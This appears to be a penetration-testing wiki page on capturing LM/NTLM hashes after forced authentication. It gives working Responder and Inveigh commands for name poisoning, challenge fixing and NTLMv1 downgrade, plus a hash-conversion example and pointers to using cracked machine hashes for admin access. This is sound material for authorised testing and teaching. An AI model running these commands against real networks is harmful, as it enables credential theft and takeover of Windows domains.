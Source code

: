 # Capture

## Theory

After successfully [forcing a victim to authenticate](../mitm-and-coerced-authentications/) with LM or NTLM to an attacker's server, the attacker can try to recover credentials by capturing and [cracking the hash](../credentials/cracking.md) (LM or NTLM hash, a.k.a. response) sent by the victim.

## Practice

{% hint style="info" %}
NTLM capture can be combined with any forced authentication attack. Testers should dissociate the name poisoning features that Responder and Inveigh offer from their capturing features. Those tools can be combined with others offering different "authentication forcing" attacks (like [IPv6 + name poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning), [MS-RPRN abuse](../mitm-and-coerced-authentications/#ms-rprn-abuse) and so on).
{% endhint %}

[Responder](https://github.com/SpiderLabs/Responder) (Python) and [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell) are great tools able to do name poisoning for forced authentication attacks, but also able to capture responses (LM or NTLM hashes) by starting servers waiting for incoming authentications. Once those listening servers are up and ready, the tester can initiate the [forced authentication attack](../mitm-and-coerced-authentications/).

{% hint style="info" %}
In order to help the later [cracking process](../credentials/cracking.md#tips-and-tricks), testers need to set the NTLM challenge sent to victims to `1122334455667788`.

For Inveigh, it can be defined with a command-line argument. For Responder, testers need to edit the configuration file.

```bash
sed -i 's/ Random/ 1122334455667788/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Responder" %}
From UNIX-like systems, [Responder](https://github.com/lgandx/Responder) (Python) can be used to start servers listening for NTLM authentications over many protocols (SMB, HTTP, LDAP, FTP, POP3, IMAP, SMTP, ...). Depending on the authenticating principal's configuration, the NTLM authentication can sometimes be downgraded with `--lm` and `--disable-ess` in order to obtain NTLMv1 responses.

```bash
responder --interface "eth0" --analyze
responder -I "eth0" -A

# with downgrading
responder --interface "eth0" --analyze --lm --disable-ess
```

Testers should try to force a LM hashing downgrade with Responder. LM and NTLMv1 responses (a.k.a. LM/NTLMv1 hashes) from Responder can easily be cracked with [crack.sh](https://crack.sh/netntlm/). The [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool (Python) can be used to convert captured responses to crackable formats by hashcat, [crack.sh](https://crack.sh/netntlm/) and so on.

```bash
ntlmv1-multi --ntlmv1 SV01$::BREAKING.BAD:AD1235DEAC142CD5FC2D123ADCF51A111ADF45C2345ADCF5:AD1235DEAC142CD5FC2D123ADCF51A111ADF45C2345ADCF5:1122334455667788
```

{% hint style="success" %}
Machine account NT hashes can be used with the [Silver Ticket](broken-reference) or [S4U2self abuse](../kerberos/delegations/s4u2self-abuse.md) techniques to gain admin access to it.
{% endhint %}

{% hint style="info" %}
There are cases where a downgrade attempt will fail and the capture authentication will not be shown. Testers should always try to capture authentication with and without downgrading.
{% endhint %}
{% endtab %}

{% tab title="Inveigh" %}
Start poisoning LLMNR, NBT-NS and mDNS with a custom challenge, enable HTTPS capturing, enable proxy server authentication captures

```
.\Inveigh.exe -Challenge 1122334455667788 -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y
```
{% endtab %}
{% endtabs %}
